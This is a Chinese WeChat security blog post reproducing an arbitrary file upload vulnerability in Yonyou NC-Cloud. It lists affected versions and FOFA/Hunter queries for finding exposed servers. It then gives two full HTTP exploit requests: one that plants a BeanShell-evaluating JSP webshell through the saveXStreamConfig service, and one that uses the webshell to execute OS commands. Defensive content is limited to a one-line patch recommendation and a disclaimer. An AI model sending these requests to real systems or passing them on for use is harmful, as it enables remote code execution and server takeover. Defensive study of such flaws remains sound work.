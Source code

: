 #  【漏洞情报 | 新】用友NC-Cloud任意文件上传漏洞

原创 4Zen  [ 划水但不摆烂 ](javascript:void\(0\);)

**划水但不摆烂** ![]()

微信号 gh_0ea5f4b417af

功能介绍 Hi~这里是"划水但不摆烂"，公众号会不定期进行安全相关的资源、技术与经验分享，保持以学徒之心多角度去思考与分享！

____

___发表于_

收录于合集 #漏洞复现 2个

## 免责声明

由于传播、利用本文所提供的信息而造成的任何直接或者间接的后果及损失，均由使用者本人负责，作者不为此承担任何责任。所涉及工具安全性请自测。

## 产品简介

用友NC
Cloud大型企业数字化平台，深度应用新一代数字智能技术，完全基于云原生架构，打造开放、互联、融合、智能的一体化云平台，聚焦数智化管理、数智化经营、数智化商业等三大企业数智化转型战略方向，提供涵盖数字营销、财务共享、全球司库、智能制造、敏捷供应链、人才管理、智慧协同等18大解决方案，帮助大型企业全面落地数智化。

## 漏洞描述

用友NC-Cloud系统存在任意文件上传漏洞。攻击者可将任意文件上传至服务器，并将webshell上传至服务器，从而可以获取服务器的命令执行权限。

## 影响版本

    
    
    NC63、NC633、NC65  
    NC Cloud1903、NC Cloud1909  
    NC Cloud2005、NC Cloud2105、NC Cloud2111  
    YonBIP高级版2207  
    

## 如何识别用友-NC-Cloud平台

favicon图标特征

![]()

FOFA网络测绘搜索

    
    
    app="用友-NC-Cloud"  
    

鹰图网络测绘搜索

    
    
    web.body="uap/rbac"  
    

## 漏洞复现

POC1：发送POST请求上传名为404.jsp的webshell，经测试返回404或200均为上传成功

    
    
    POST /uapjs/jsinvoke/?action=invoke HTTP/1.1  
    Host: IP:PORT  
    User-Agent: Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 6.1)  
    Accept: */*  
    Connection: Keep-Alive  
    Content-Length: 247  
    Content-Type: application/x-www-form-urlencoded  
      
    {"serviceName":"nc.itf.iufo.IBaseSPService","methodName":"saveXStreamConfig","parameterTypes":["java.lang.Object","java.lang.String"],"parameters":["${param.getClass().forName(param.error).newInstance().eval(param.cmd)}","webapps/nc_web/404.jsp"]}  
    

![]()

POC2：上传成功后尝试利用如下POST请求执行ping命令

    
    
    POST /404.jsp?error=bsh.Interpreter HTTP/1.1  
    Host: IP:PORT  
    Cache-Control: max-age=0  
    Upgrade-Insecure-Requests: 1  
    User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4515.159 Safari/537.36  
    Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9  
    Accept-Encoding: gzip, deflate  
    Accept-Language: zh-CN,zh;q=0.9  
    Cookie: cookiets=1681785232226; JSESSIONID=334D3ED07A343770FF.server  
    If-None-Match: W/"1571-1589211696000"  
    If-Modified-Since: Mon, 11 May 2020 15:41:36 GMT  
    Connection: close  
    Content-Type: application/x-www-form-urlencoded  
    Content-Length: 104  
      
    cmd=org.apache.commons.io.IOUtils.toString(Runtime.getRuntime().exec("ping 8.8.8.8").getInputStream())  
      
    

![]()

## 修复建议

官方已发布修复补丁，请及时下载补丁进行升级。

  

预览时标签不可点

微信扫一扫  
关注该公众号

[知道了](javascript:;)

微信扫一扫  
使用小程序

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

****

[取消](javascript:void\(0\);) [允许](javascript:void\(0\);)

： ， 。   视频 小程序 赞 ，轻点两下取消赞 在看 ，轻点两下取消在看

